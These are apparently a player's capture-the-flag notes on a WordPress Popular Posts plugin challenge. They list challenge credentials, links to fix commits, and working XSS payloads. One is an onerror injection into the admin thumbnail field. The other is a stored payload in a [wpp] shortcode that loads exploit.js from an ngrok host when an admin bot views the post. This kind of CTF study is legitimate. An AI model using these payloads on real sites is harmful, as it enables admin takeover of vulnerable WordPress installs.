 # Such popular, much wow
> I heard you like web challenges with sourcecode provided. Lets find a simple
> 0-day in an old and vulnerable plugin.  Take a look at the entry-point.sh
> script. You'll find helpful credentials in there.

It's called: diff the patch
Seems relevant to look at that HAH
It says plugin too. So.. what plugin?

- root creds: `admin:UNKNOWN`
- author creds: `bob-the-author:s3cur3PW`

Seems like we might need to create a malicious post and the admin will view it
and we do something fun

https://github.com/cabrerahector/wordpress-popular-posts/archive/refs/tags/4.2.2.zip

https://github.com/cabrerahector/wordpress-popular-posts/compare/4.2.2...5.0.0


5.3.3 (https://github.com/cabrerahector/wordpress-popular-posts/compare/5.3.2...5.3.3)
- Admin XSS Vulnerability: https://github.com/cabrerahector/wordpress-popular-posts/commit/5cde8ff16fb80e23bd881b54f438a8177f7e5ad6
  ```
  Can inject malicious default image to be shown, but need to be admin to upload
  this image. Hmph.

  Modifying POST /wp-admin/options-general.php?page=wordpress-popular-posts&tab=tools
    upload_thumb_src=http%3A%2F%2Flocalhost%3A1024%2Fwp-content%2Fuploads%2F2023%2F08%2F22x" onerror=alert(1) x=".jpeg
  ```
- RCE: https://github.com/cabrerahector/wordpress-popular-posts/commit/d9b274cf6812eb446e4103cb18f69897ec6fe601
  https://www.exploit-db.com/exploits/50129
  https://blog.nintechnet.com/improper-input-validation-fixed-in-wordpress-popular-posts-plugin/

5.3.4 (https://github.com/cabrerahector/wordpress-popular-posts/compare/5.3.3...5.3.4)
- Authenticated Stored XSS that required admin privs
- Other "security" fixes. A variety of escaping here.

5.3.5
- Rolls back some of 5.3.4 changes
- https://github.com/cabrerahector/wordpress-popular-posts/commit/9bc8fc70ad3aad555a5374f0ce66e30fcb99acbc

5.3.6
- Sanitizes something in wpp shortcode. Not sure what was missing.
  https://github.com/cabrerahector/wordpress-popular-posts/commit/3fcb5cc882dfe152871000df968e73535b479a65



## Questions
- What is this firefox script doing?
  It seems to load each post, so loading post has exploit for admin?

WPP Posts shortcode docs:
https://github.com/cabrerahector/wordpress-popular-posts/wiki/2.-Template-tags#parameters



# My vuln:
1. Create post with this excerpt:
   ```
   [wpp excerpt_format=0 excerpt_length=1000 post_html='<li>{title} <img class="wpp-excerpt" src={summary}/></img></li>']
   x" onerror=d=document;s=d.createElement('script');s.src='//88c4-99-61-65-255.ngrok-free.app/exploit.js';document.head.append(s);//

   //jcraige.com/x.jpg" onerror=alert(1)//
   ```
2. Create another and do some reloads for views.
3. Bot will visit
4. How do we takeover admin?
